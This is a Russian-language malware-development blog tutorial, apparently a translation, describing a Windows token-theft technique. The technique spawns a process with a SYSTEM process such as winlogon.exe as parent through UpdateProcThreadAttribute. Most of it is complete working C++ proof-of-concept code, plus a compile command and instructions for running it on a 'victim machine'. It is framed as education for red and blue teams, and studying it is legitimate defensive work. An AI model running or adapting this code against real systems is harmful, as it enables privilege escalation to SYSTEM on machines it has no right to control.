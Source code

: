 \newpage
\subsection{83. разработка вредоносного ПО: закрепление (persistence) - часть 17 - APT техники: Кража токена через UpdateProcThreadAttribute. Простой пример на C++.}

﷽

Привет, энтузиасты кибербезопасности и белые хакеры!     

![token](./images/77/2022-10-29_03-59.png){:class="img-responsive"}    

Этот пост является результатом моего собственного исследования одной из более интересных APT-техник: кражи токена через `UpdateProcThreadAttribute`.     

В предыдущем [посте](https://cocomelonc.github.io/tutorial/2022/09/25/token-theft-1.html) я писал о классической краже токена через `DuplicateTokenEx` и `CreateProcessWithTokenW`. Сегодня я опишу альтернативный метод, который работает, начиная с Windows Vista.     

### UpdateProcThreadAttribute

В первой части моего руководства мы просто выполняли классический трюк: включали `SE_DEBUG_PRIVILEGE`, открывали токен из любого системного процесса (что работает даже для защищенных процессов), дублировали токен, настраивали привилегии на нем, а затем использовали этот токен.     

Сегодня мы можем использовать более простой трюк. Microsoft реализовала в Windows Vista возможность явно указывать родительский процесс при создании нового процесса, что позволяет повышенному процессу оставаться дочерним по отношению к вызывающему.    

Обычно в случае UAC необходимо явно передавать токен новому процессу. Если токен не передается, новый процесс унаследует его от назначенного родителя. Единственное условие - дескриптор родительского процесса должен иметь привилегию доступа `PROCESS_CREATE_PROCESS`.     

Таким образом, мы просто открываем какой-либо системный процесс с правом `PROCESS_CREATE_PROCESS`. Затем используем этот дескриптор с `UpdateProcThreadAttribute`. В результате наш процесс наследует токен системного процесса.     

```cpp
BOOL UpdateProcThreadAttribute(
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  DWORD                        dwFlags,
  DWORD_PTR                    Attribute,
  PVOID                        lpValue,
  SIZE_T                       cbSize,
  PVOID                        lpPreviousValue,
  PSIZE_T                      lpReturnSize
);
```

И все, что требуется для работы этого метода - `SE_DEBUG_PRIVILEGE`.    

### техника. практический пример

Прежде всего, иногда вам нужно включить `SeDebugPrivilege` в текущем наборе привилегий:     

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), 
  TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", priv);
  return res;
}
```

Затем "откроем" процесс, токен доступа которого мы хотим украсть, с правами доступа `PROCESS_CREATE_PROCESS`:

```cpp
HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
```

После этого используем его дескриптор с `UpdateProcThreadAttribute`:

```cpp
ZeroMemory(&si, sizeof(STARTUPINFOEXW));
ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
InitializeProcThreadAttributeList(NULL, 1, 0, &size);
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(
  GetProcessHeap(),
  0,
  size
);
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
UpdateProcThreadAttribute(si.lpAttributeList, 0, 
PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
si.StartupInfo.cb = sizeof(STARTUPINFOEXW);
```

Наконец, создаем процесс:

```cpp
res = CreateProcessW(app, NULL, NULL, NULL, true, 
EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, 
(LPSTARTUPINFOW)&si, &pi);
printf(res ? "successfully create process :)\n" : 
"failed to create process :(\n");
```

Итак, полный исходный код этой логики выглядит так:    

```cpp
/*
hack.cpp
token theft via
UpdateProcThreadAttribute
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/28/token-theft-2.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) 
  res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", 
  priv);
  return res;
}

// create process
BOOL createProcess(DWORD pid, LPCWSTR app) {
  STARTUPINFOEXW si;
  PROCESS_INFORMATION pi;
  SIZE_T size;
  BOOL res = TRUE;
  HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
  printf(ph ? "successfully open process :)\n" : 
  "failed to open process :(\n");

  ZeroMemory(&si, sizeof(STARTUPINFOEXW));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  InitializeProcThreadAttributeList(NULL, 1, 0, &size);
  si.lpAttributeList = 
  (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, size);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, 
  PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXW);

  res = CreateProcessW(app, NULL, NULL, NULL, true, 
  EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, 
  (LPSTARTUPINFOW)&si, &pi);
  printf(res ? "successfully create process :)\n" : 
  "failed to create process :(\n");
  return res;
}

int main(int argc, char** argv) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  DWORD pid = atoi(argv[1]);
  if (!createProcess(pid, L"C:\\Windows\\System32\\mspaint.exe")) return -1;
  return 0;
}
```

Как можно видеть, код немного отличается от предыдущей части. Этот код - просто "грязный" PoC, для упрощения я запускаю `mspaint.exe`.      

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем наш PoC:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![token](./images/77/2022-10-29_03-48.png){:class="img-responsive"}    

Затем запускаем его на машине жертвы:    

```powershell
.\hack.exe <PID>
```

![token](./images/77/2022-10-29_03-56.png){:class="img-responsive"}    

Например, можно украсть токен доступа `winlogon.exe (PID: 544)`:     

![token](./images/77/2022-10-29_03-57.png){:class="img-responsive"}    

![token](./images/77/2022-10-29_03-58.png){:class="img-responsive"}    

![token](./images/77/2022-10-29_03-59_1.png){:class="img-responsive"}    

Как можно видеть, все сработало идеально!     

Надеюсь, этот пост окажется хотя бы немного полезным для специалистов начального уровня в области кибербезопасности (а возможно, и для профессионалов), а также повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.   

[Local Security Authority](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication)       
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)     
[LookupPrivilegeValue](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-lookupprivilegevaluea)    
[AdjustTokenPrivileges](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-adjusttokenprivileges)     
[UpdateProcThreadAttribute](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)    
[CreateProcessW](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw)       
[APT techniques: Token theft. Part 1](/tutorial/2022/09/25/token-theft-1.html)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-28-token-theft-2)        

